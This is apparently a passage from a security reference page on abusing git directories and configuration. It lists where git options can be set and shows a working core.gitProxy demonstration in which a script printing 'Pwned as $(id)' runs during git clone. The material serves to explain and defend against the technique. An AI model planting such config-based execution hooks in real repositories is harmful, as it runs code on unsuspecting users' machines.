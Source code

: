 - The user does `git init` to initialise an empty local repository
- The user does `git clone <repository>` to clone an existing repository from a remote location

The structure of a git directory is documented at https://git-scm.com/docs/gitrepository-layout

Note that a git directory is often, but not always, a directory named `.git` at the root of a repo. There are several variables that can redefine a path:

- [GIT_DIR](https://git-scm.com/docs/git#Documentation/git.txt-codeGITDIRcode) environment variable or [--git-dir](https://git-scm.com/docs/git#Documentation/git.txt---git-dirltpathgt) command-line option specifies a path to use instead of the default `.git` for the base of the repository.
- [GIT_COMMON_DIR](https://git-scm.com/docs/git#Documentation/git.txt-codeGITCOMMONDIRcode) environment variable or [commondir](https://git-scm.com/docs/gitrepository-layout#Documentation/gitrepository-layout.txt-commondir) file specifies a path from which non-worktree files will be taken, which are normally in `$GIT_DIR`.

Notice that the [bare repositories](https://git-scm.com/docs/git-init#Documentation/git-init.txt---bare) do not have a `.git` directory at all.

References:
- [Writeup: gh run download implementation allows overwriting git repository configuration upon artifacts downloading](https://github.com/Metnew/write-ups/blob/e6f65cf6ff60434a37ee230d828336809dd25f5a/rce-gh-cli-run-download/README.md)

### Abuse via .git/config

`.git/config` allows for the configuration of [options](https://git-scm.com/docs/git-config#_variables) on a per-repo basis. Many of the options allow for the specification of commands that will be executed in various situations, but some of these situations only arise when a user interacts with a git repository in a particular way.

There are at least the following ways to set the options:

1. On a system-wide basis using [/etc/gitconfig](https://git-scm.com/docs/git-config#Documentation/git-config.txt-prefixetcgitconfig) file
2. On a global basis using [~/git/config](https://git-scm.com/docs/git-config#Documentation/git-config.txt-XDGCONFIGHOMEgitconfig) or [~/.gitconfig](https://git-scm.com/docs/git-config#Documentation/git-config.txt-gitconfig) files
3. On a local per-repo basis using [.git/config](https://git-scm.com/docs/git-config#Documentation/git-config.txt-GITDIRconfig) file
4. On a local per-repo basis using [.git/config.worktree](https://git-scm.com/docs/git-config#Documentation/git-config.txt-GITDIRconfigworktree) file. This is optional and is only searched when `extensions.worktreeConfig` is present in `.git/config`
5. On a local per-repo basis using [git -c/--config-env](https://git-scm.com/docs/git#Documentation/git.txt--cltnamegtltvaluegt) option
6. On a local per-repo basis using [git-clone -c/--config](https://git-scm.com/docs/git-clone#Documentation/git-clone.txt--cltkeygtltvaluegt) option

#### core.gitProxy

[core.gitProxy](https://git-scm.com/docs/git-config#Documentation/git-config.txt-coregitProxy) gives a command that will be executed when establishing a connection to a remote using the `git://` protocol

```bash
$ echo $'#!/bin/bash\necho \\"Pwned as $(id)\\">&2' > pwn.sh
$ chmod +x pwn.sh
$ git clone -c core.gitProxy="./pwn.sh" git://github.com/user/project.git
Cloning into 'project'...
"Pwned as uid=0(root) gid=0(root) groups=0(root)"
fatal: Could not read from remote repository.

Please make sure you have the correct access rights and the repository exists.
```
